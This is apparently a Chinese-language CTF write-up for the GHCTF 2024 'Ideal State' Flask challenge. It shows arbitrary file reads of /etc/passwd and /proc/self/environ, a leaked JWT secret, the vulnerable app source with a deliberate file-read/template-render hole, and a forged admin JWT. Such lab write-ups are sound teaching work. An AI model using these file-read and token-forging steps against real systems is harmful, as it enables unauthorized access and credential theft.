

## 基本信息

* 题目名称： [GHCTF 2024 新生赛]理想国
* 题目链接： https://www.nssctf.cn/problem/5145
* 考点清单： Cookie伪造，Flask，/proc，SSRF
* 工具清单：Yakit, 在线 JWT
* payloads： JWT 伪造，敏感文件读取

## 一、看到什么

**题目关键信息列表**：

1. `接口文档`: json形式的接口文档，展示四个接口的详细信息。


## 二、想到什么解题思路

1. 接口功能尝试，观察返回信息；

2. 目录爆破，找其他可能攻击入口。


## 三、尝试过程和结果记录

1. 尝试注册用户：

   

   返回success，应该是注册成功了。

2. 接着使用登录接口尝试登陆：
   

   这里同样返回succss，说明登录成功，同时返回的还有cookie。

3. 于是拿上返回的cookie访问需要登录才能访问的搜索接口，由于接口文档给出的参数是file，应该想到任意文件读取，于是尝试：

   

   发现成功读取`/etc/passwd`，于是自然想到直接读取`/flag`，但是返回404 Not Found，说明 flag 文件可能不是常规位置。但是拥有了任意文件读取我们可以尝试读取系统中的敏感文件发现线索。

   > 文件读取漏洞的后利用姿势 https://www.freebuf.com/articles/web/337617.html

   参考以上文章后尝试读取敏感文件，多次尝试后以下两个文件内容比较有价值：

   - 尝试 /proc/self/cmdline：

     ```bash
     python app.py
     ```

     由此可知python服务的文件名为 `app.py`。

   - 尝试 /proc/self/environ：

     ```bash
     HOSTNAME=3029c31f7a504ad7 
     PYTHON_VERSION=3.10.13 
     PWD=/app
     PYTHON_SETUPTOOLS_VERSION=65.5.1
     HOME=/root
     LANG=C.UTF-8
     SECRET_KEY=B3@uTy_L1es_IN_7he_EyEs_0f_Th3_BEh0ld3r
     GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
     FLAG=no_FLAG
     SHLVL=1
     PYTHON_PIP_VERSION=23.0.1 
     PYTHON_GET_PIP_SHA256=7cfd4bdc4d475ea971f1c0710a5953bcc704d171f83c797b9529d9974502fcc6 
     PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/049c52c665e8c5fd1751f942316e0a5c777d304f/public/get-pip.py
     PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin _=/usr/local/bin/python OLDPWD=/
     ```

     关键信息：

     - `SECRET_KEY=B3@uTy_L1es_IN_7he_EyEs_0f_Th3_BEh0ld3r` 
     - `PWD=/app`

   由此结合线索，当前工作目录为`/app`，进程文件名为`app.py`，所以尝试读取`/app/app.py`文件，响应如下：

   ```http
   HTTP/1.1 200 OK
   Server: Werkzeug/3.0.1 Python/3.10.13
   Date: Sun, 19 Jan 2025 18:08:11 GMT
   Content-Type: text/html; charset=utf-8
   Connection: close
   Content-Length: 4635
   
   # coding=gbk
   import json
   from flask import Flask, request, jsonify, send_file, render_template_string
   import jwt
   import requests
   from functools import wraps
   from datetime import datetime
   import os
   
   app = Flask(__name__)
   app.config['TEMPLATES_RELOAD'] = True
   app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY')
   current_time = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
   
   response0 = {'code': 0, 'message': 'failed', 'result': None}
   response1 = {'code': 1, 'message': 'success', 'result': current_time}
   response2 = {'code': 2, 'message': 'Invalid request parameters', 'result': None}
   
   def auth(func):
       @wraps(func)
       def decorated(*args, **kwargs):
           token = request.cookies.get('token')
           if not token:
               return 'Invalid token', 401
           try:
               payload = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
               if payload['username'] == User.username and payload['password'] == User.password:
                   return func(*args, **kwargs)
               else:
                   return 'Invalid token', 401
           except:
               return 'Something error?', 500
       return decorated
   
   def check(func):
       @wraps(func)
       def decorated(*args, **kwargs):
           token = request.cookies.get('token')
           if not token:
               return 'Invalid token', 401
           try:
               payload = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
               if payload['username'] == "Plato" and payload['password'] == "ideal_state":
                   return func(*args, **kwargs)
               else:
                   return 'You are not a sage. You cannot enter the ideal state.', 401
           except:
               return 'Something error?', 500
       return decorated
   
   @app.route('/', methods=['GET'])
   def index():
       return send_file('api-docs.json', mimetype='application/json;charset=utf-8')
   
   @app.route('/enterIdealState', methods=['GET'])
   @check
   def getflag():
       flag = os.popen("/readflag").read()
       return flag
   
   @app.route('/api-base/v0/register', methods=['GET', 'POST'])
   def register():
       if request.method == 'POST':
           username = request.json['username']
           if username == "Plato":
               return 'Your wisdom is not sufficient to be called a sage.', 401
           password = request.json['password']
           User.setUser(username, password)
           token = jwt.encode({'username': username, 'password': password}, app.config['SECRET_KEY'], algorithm='HS256')
           User.setToken(token)
           return jsonify(response1)
       return jsonify(response2), 400
   
   @app.route('/api-base/v0/login', methods=['GET', 'POST'])
   def login():
       if request.method == 'POST':
           username = request.json['username']
           password = request.json['password']
           try:
               token = User.token
               payload = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
               if payload['username'] == username and payload['password'] == password:
                   response = jsonify(response1)
                   response.set_cookie('token', token)
                   return response
               else:
                   return jsonify(response0), 401
           except jwt.ExpiredSignatureError:
               return 'Invalid token', 401
           except jwt.InvalidTokenError:
               return 'Invalid token', 401
       return jsonify(response2), 400
   
   @app.route('/api-base/v0/logout')
   def logout():
       response = jsonify({'message': 'Logout successful!'})
       response.delete_cookie('token')
       return response
   
   @app.route('/api-base/v0/search', methods=['POST', 'GET'])
   @auth
   def api():
       if request.args.get('file'):
           try:
               with open(request.args.get('file'), 'r') as file:
                   data = file.read()
               return render_template_string(data)
   
           except FileNotFoundError:
               return 'File not found', 404
           except jwt.ExpiredSignatureError:
               return 'Invalid token', 401
           except jwt.InvalidTokenError:
               return 'Invalid token', 401
           except Exception:
               return 'something error?', 500
       else:
           return jsonify(response2)
   
   class MemUser:
       def setUser(self, username, password):
           self.username = username
           self.password = password
   
       def setToken(self, token):
           self.token = token
   
       def __init__(self):
           self.username = "admin"
           self.password = "password"
           self.token = jwt.encode({'username': self.username, 'password': self.password}, app.config['SECRET_KEY'], algorithm='HS256')
   
   if __name__ == '__main__':
       User = MemUser()
       app.run(host='0.0.0.0', port=8080)
   ```

4. 代码审计：

   1. 可以观察到和flag相关的路由定义：

      ```python
      @app.route('/enterIdealState', methods=['GET'])
      @check
      def getflag():
          flag = os.popen("/readflag").read()
          return flag
      ```

      说明获取flag需要访问后门路由`/enterIdealState`，但是这个路由被`check()`包装器包装。

   2. `check()`包装器关键部分：

      ```python
      payload['username'] == "Plato" and payload['password'] == "ideal_state"
      ```

      指明了我们需要伪造用户名为`Plato`，密码为`ideal_state`的用户的 Cookie 才能访问后门路由。

   3. 根据收集到的信息，尝试伪造 JWT，使用离线工具`CyberChef`

      先把自己本身的cookie用`JWT Decode`模块解析，拿到payload的格式，然后修改用户名密码字段，填入`secret key`

      

      带上伪造的Cookie，访问后门路由

      

      成功获取flag！

## 四、总结与反思

1. 需要熟悉 JWT 的组成，了解伪造 Cookie 的原理；
2. 如果拿到任意文件读取漏洞后，需要熟悉后续利用，熟悉常读取的敏感文件路径。

## 五、本地工具环境配置

### CyberChef

在线网站及下载地址：https://gchq.github.io/CyberChef/

在本地备份一份源码，直接点击即可在浏览器打开。